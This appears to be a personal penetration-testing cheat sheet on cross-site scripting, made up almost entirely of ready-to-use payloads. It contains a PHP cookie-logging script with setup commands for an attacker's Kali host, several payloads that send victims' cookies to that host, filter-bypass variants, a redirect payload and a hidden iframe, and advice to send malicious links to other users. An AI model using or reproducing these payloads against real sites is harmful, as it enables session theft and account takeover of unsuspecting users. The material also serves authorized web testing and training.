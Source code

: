#### Payload all the things resource:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
```
#### Test for XSS
Check if HttpOnly is disabled.
[[1._rlwrap]]
```
<img+src%3dhttp%3a//$KALI/x+/>>
```
#### steal.php
Save on to kali as `/var/www/html/steal.php`
```php - kali
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh, $ip.' '.$browser. ' '.$cookie. " \n");
fclose($fh);
echo "Thanks for your info" . $_POST['name'] . "!!!";
?>
```
```bash - kali
sudo chmod 777 /var/www/html/steal.php
```
```bash - kali
service apache2 start
```
[[Python#Server]]
```html - target
<script>var i=new Image();i.src="http://$KALI/steal.php?q="+document.cookie;</script>
```
now just view the log:
```firefox
127.0.0.1/log.txt
```
Can also be used in file uploads if it allows! Try finding uploaded URL and send that link out for others to click!
#### Base64 encode
The btoa() function is used to encode the cookies as base64 and then append it to the IP address. URL encode this payload and repeat the request.
[[1._rlwrap]]
```
<img src=x onerror=this.src='http://$KALI/?cookies='+btoa(document.cookie)
/>
```
Now decode the base64 value.  Remember `%3D` is `=`.
#### New Awesome payload
Replaces `<script>alert(1)</script>`
```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```
#### Basic payloads
```html
<script>alert('XSS')</script>
```
```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```
```html
"><script>alert('XSS')</script>
```
```html
"><script>alert(String.fromCharCode(88,83,83))</script>
```
```html
<script>\u0061lert('22')</script>
```
```html
<script>eval('\x61lert(\'33\')')</script>
```
```html
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
```
```html
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```
#### Img payloads
```html
<img src=x onerror=alert('XSS');>
```
```html
<img src=x onerror=alert('XSS')//
```
```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```
```html
"><img src=x onerror=alert('XSS');>
```
```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
Svg payloads
```html
<svgonload=alert(1)>
```
```html
<svg/onload=alert('XSS')>
```
```html
<svg onload=alert(1)//
```
```html
<svg/onload=alert(String.fromCharCode(88,83,83))>
```
```html
<svg id=alert(1) onload=eval(id)>
```
```html
"><svg/onload=alert(String.fromCharCode(88,83,83))>
```
```html
"><svg/onload=alert(/XSS/)
```
```html
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```
```html
<svg><script>alert('33')
```
```html
<svg><script>alert&lpar;'33'&rpar;
```
// Div payload
```html
<div onpointerover="alert(45)">MOVE HERE</div>
```
```html
<div onpointerdown="alert(45)">MOVE HERE</div>
```
```html
<div onpointerenter="alert(45)">MOVE HERE</div>
```
```html
<div onpointerleave="alert(45)">MOVE HERE</div>
```
```html
<div onpointermove="alert(45)">MOVE HERE</div>
```
```html
<div onpointerout="alert(45)">MOVE HERE</div>
```
```html
<div onpointerup="alert(45)">MOVE HERE</div>
```
#### Example 1
- Something reflected on page?
	- `?default=English` : XSS
	- Test by changing value : `?default=AAAAA`
	- Inspect page:
	![[Pasted image 20220902124919.png]]
From the image above, we see we need to close out the option value  (`'>`), the options tag (`</option>`), and the select tag (`</select>`).  Then, create a h1 tag to test reflection on page.  Should see big bold TEST on page.
?default=
```html
'></option></select><h1>TEST</h1>
```
Next, try introducing script tag:
```html
'></option></select><script>alert('XSS')</script>
```
Using this to redirect user to other website:
```html
'></option></select><script>document.location.href="http://$KALI"</script>
```
If script tag is being filtered:
```html
'></option></select><img src=x onerror="alert('XSS')"/>
```
If there is an input box that reflects to page:
`<h1>Test</h1>`
`<script>alert('XSS')</script>`
If does not work, try bypass methods (`<SCRIPT>`, or `<SCRSCRIPTIPT>`)
XSS Filter bypass URL Encoding:
The "/" character is being filtered below:
`encodeURIComponent("<h1>Test</h1>");`
Testing input boxes:
Once found, set up listener and input script tag to steal cookies:
[[1._rlwrap]]
```html
<script>fetch('http://$KALI:80/'+document.cookie); /script>
```
Just modify cookie value in browser for win.
#### iframe test
[[1._rlwrap]]
```html
<iframe src=http://$KALI/report height="0" width="0"></iframe>
```
When a user connects to the page, we will receive there browser details:
#### Stealing Cookies and Session Information
[[1._rlwrap]]
```html
<script>new Image().src="http://$KALI/cool.jpg?output="+document.cookie;</script>
```
